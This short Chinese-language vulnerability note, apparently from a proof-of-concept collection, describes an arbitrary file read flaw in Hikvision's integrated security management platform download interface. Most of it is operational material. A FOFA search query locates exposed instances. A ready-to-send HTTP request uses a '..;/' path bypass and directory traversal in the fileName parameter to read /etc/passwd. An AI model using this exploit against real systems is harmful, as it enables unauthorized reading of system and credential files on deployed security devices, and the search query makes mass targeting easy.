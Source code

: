 ## 海康威视综合安防download存在任意文件读取漏洞

综合安防管理平台是一套“集成化”、“智能化”的平台,通过接入视频监控、一卡通、停车场、报警检测等系统的设备。海康威视集成化综合管理软件平台,可以对接入的视频监控点集中管理,实现统一部署、统一配置、统一管理和统一调度。Hikvision综合安防管理平台/orgManage/v1/orgs/download接口存在任意文件读取漏洞。

## fofa

```
title="综合安防管理平台"
```

## poc

```
GET /center/api/task/..;/orgManage/v1/orgs/download?fileName=../../../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
```

